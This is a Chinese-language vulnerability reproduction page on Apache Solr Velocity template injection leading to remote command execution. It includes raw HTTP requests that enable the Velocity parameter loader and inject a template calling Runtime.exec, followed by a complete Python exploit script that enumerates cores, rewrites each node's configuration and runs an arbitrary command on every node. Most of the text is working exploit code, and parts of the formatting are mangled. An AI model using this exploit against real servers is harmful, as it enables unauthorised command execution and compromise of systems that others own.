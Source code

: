 ```yaml
---
title: "Apache Solr Velocity模版注入远程命令执行"
id: zhfly2823
---
```


# Apache Solr Velocity模版注入远程命令执行

## 一、漏洞简介

该漏洞的产生是由于两方面的原因：

1、当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。
2、2Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。

## 二、漏洞影响

经过测试，目前影响Apache Solr 8.1.1到8.2.0版本。

推测影响全版本Apache Solr。

## 三、复现过程

### 手动检测

手动检测访问http://www.0-sec.org/8983/solr/#/进入主界面，单击左侧的Core Selector查看集合名称

![image](../img/c8739256fe00e7d893aa92e9efc49b77.png)

#### 1、post发送请求

```
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259 `{

“update-queryresponsewriter”: {

“startup”: “lazy”,

“name”: “velocity”,

“class”: “solr.VelocityResponseWriter”,

“template.base.dir”: “”,

“solr.resource.loader.enabled”: “true”,

“params.resource.loader.enabled”: “true”

}

}` 
```

#### 2、执行系统命令

```
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983 
```

### 使用脚本检测

```
auth: @l3_W0ng
version: 1.0
function: Apache Solr RCE via Velocity template
usage: python3 script.py ip [port [command]]
               default port=8983
               default command=whoami
note:
Step1: Init Apache Solr Configuration
Step2: Remote Exec in Every Solr Node
"""

import sys

import json

import time

import requests

class initSolr(object):

```
timestamp_s = str(time.time()).split('.')
timestamp = timestamp_s[0] + timestamp_s[1][0:-3]

def __init__(self, ip, port):
    self.ip = ip
    self.port = port

def get_nodes(self):
    payload = {
        '_': self.timestamp,
        'indexInfo': 'false',
        'wt': 'json'
    }
    url = 'http://' + self.ip + ':' + self.port + '/solr/admin/cores'

    try:
        nodes_info = requests.get(url, params=payload, timeout=5)
        node = list(nodes_info.json()['status'].keys())
        state = 1
    except:
        node = ''
        state = 0

    if node:
        return {
            'node': node,
            'state': state,
            'msg': 'Get Nodes Successfully'
        }
    else:
        return {
            'node': None,
            'state': state,
            'msg': 'Get Nodes Failed'
        }

def get_system(self):
    payload = {
        '_': self.timestamp,
        'wt': 'json'
    }
    url = 'http://' + self.ip + ':' + self.port + '/solr/admin/info/system'
    try:
        system_info = requests.get(url=url, params=payload, timeout=5)
        os_name = system_info.json()['system']['name']
        os_uname = system_info.json()['system']['uname']
        os_version = system_info.json()['system']['version']
        state = 1

    except:
        os_name = ''
        os_uname = ''
        os_version = ''
        state = 0

    return {
        'system': {
            'name': os_name,
            'uname': os_uname,
            'version': os_version,
            'state': state
        }
    } 
```

class apacheSolrRCE(object):

```
def __init__(self, ip, port, node, command):
    self.ip = ip
    self.port = port
    self.node = node
    self.command = command
    self.url = "http://" + self.ip + ':' + self.port + '/solr/' + self.node

def init_node_config(self):
    url = self.url + '/config'
    payload = {
        'update-queryresponsewriter': {
            'startup': 'lazy',
            'name': 'velocity',
            'class': 'solr.VelocityResponseWriter',
            'template.base.dir': '',
            'solr.resource.loader.enabled': 'true',
            'params.resource.loader.enabled': 'true'
        }
    }
    try:
        res = requests.post(url=url, data=json.dumps(payload), timeout=5)
        if res.status_code == 200:
            return {
                'init': 'Init node config successfully',
                'state': 1
            }
        else:
            return {
                'init': 'Init node config failed',
                'state': 0
            }
    except:
        return {
            'init': 'Init node config failed',
            'state': 0
        }

def rce(self):
    url = self.url + ("/select?q=1&amp;&amp;wt=velocity&amp;v.template=custom&amp;v.template.custom="
                      "%23set($x=%27%27)+"
                      "%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+"
                      "%23set($chr=$x.class.forName(%27java.lang.Character%27))+"
                      "%23set($str=$x.class.forName(%27java.lang.String%27))+"
                      "%23set($ex=$rt.getRuntime().exec(%27" + self.command +
                      "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+"
                      "%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end")
    try:
        res = requests.get(url=url, timeout=5)
        if res.status_code == 200:
            try:
                if res.json()['responseHeader']['status'] == '0':
                    return 'RCE failed @Apache Solr node %s\n' % self.node
                else:
                    return 'RCE failed @Apache Solr node %s\n' % self.node
            except:
                return 'RCE Successfully @Apache Solr node %s\n %s\n' % (self.node, res.text.strip().strip('0'))

        else:
            return 'RCE failed @Apache Solr node %s\n' % self.node
    except:
        return 'RCE failed @Apache Solr node %s\n' % self.node 
```

def check(ip, port=‘8983’, command=‘whoami’):

system = initSolr(ip=ip, port=port)

if system.get_nodes()[‘state’] == 0:

print(‘No Nodes Found. Remote Exec Failed!’)

else:

nodes = system.get_nodes()[‘node’]

systeminfo = system.get_system()

os_name = systeminfo[‘system’][‘name’]

os_version = systeminfo[‘system’][‘version’]

print('OS Realese: %s, OS Version: %s\nif remote exec failed, ’

‘you should change your command with right os platform\n’ % (os_name, os_version))

```
 for node in nodes:
        res = apacheSolrRCE(ip=ip, port=port, node=node, command=command)
        init_node_config = res.init_node_config()
        if init_node_config['state'] == 1:
            print('Init node %s Successfully, exec command=%s' % (node, command))
            result = res.rce()
            print(result)
        else:
            print('Init node %s Failed, Remote Exec Failed\n' % node) 
```

if **name** == ‘**main**’:

usage = ('python3 script.py ip [port [command]]\n ’

'\t\tdefault port=8983\n ’

‘\t\tdefault command=whoami’)

```
if len(sys.argv) == 4:
    ip = sys.argv[1]
    port = sys.argv[2]
    command = sys.argv[3]
    check(ip=ip, port=port, command=command)
elif len(sys.argv) == 3:
    ip = sys.argv[1]
    port = sys.argv[2]
    check(ip=ip, port=port)
elif len(sys.argv) == 2:
    ip = sys.argv[1]
    check(ip=ip)
else:
    print('Usage: %s:\n' % usage) 
``` 
```